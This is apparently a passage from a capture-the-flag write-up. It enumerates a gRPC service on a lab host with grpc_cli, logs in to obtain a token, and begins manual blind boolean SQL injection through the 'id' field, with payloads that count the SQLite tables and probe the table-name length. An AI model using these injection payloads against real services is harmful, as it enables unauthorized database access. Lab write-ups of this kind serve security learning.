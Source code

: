 ```bash
grpc_cli type 10.10.11.214:50051 getInfoRequest
message getInfoRequest {
  string id = 1;
}
```

```bash
grpc_cli type 10.10.11.214:50051 LoginUserRequest

message LoginUserRequest {
  string username = 1;
  string password = 2;
}
```

```bash
grpc_cli type 10.10.11.214:50051 RegisterUserRequest
message RegisterUserRequest {
  string username = 1;
  string password = 2;
}
```

```bash
grpc_cli call 10.10.11.214:50051 SimpleApp.RegisterUser 'username: "blnkn", password: "blnkn"'
connecting to 10.10.11.214:50051
message: "User Already Exists!!"
Rpc succeeded with OK status
```

```bash
grpc_cli call 10.10.11.214:50051 SimpleApp.LoginUser 'username: "blnkn", password: "blnkn"'
connecting to 10.10.11.214:50051
message: "Your id is 317."
Received trailing metadata from server:
token : b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYmxua24iLCJleHAiOjE2ODQ2NzQ5NTV9.FOxpXVX1IpCCFq55UN0wdJvBbzsmgxafhS69bTeixto'
Rpc succeeded with OK status
```



## Manual blind Boolean based injection 

We have 2 tables
```json
{ "id":"653 or  (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' )=2" }
```

First table name is of length 8
```json
{ "id":"653 or (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=8" }
```

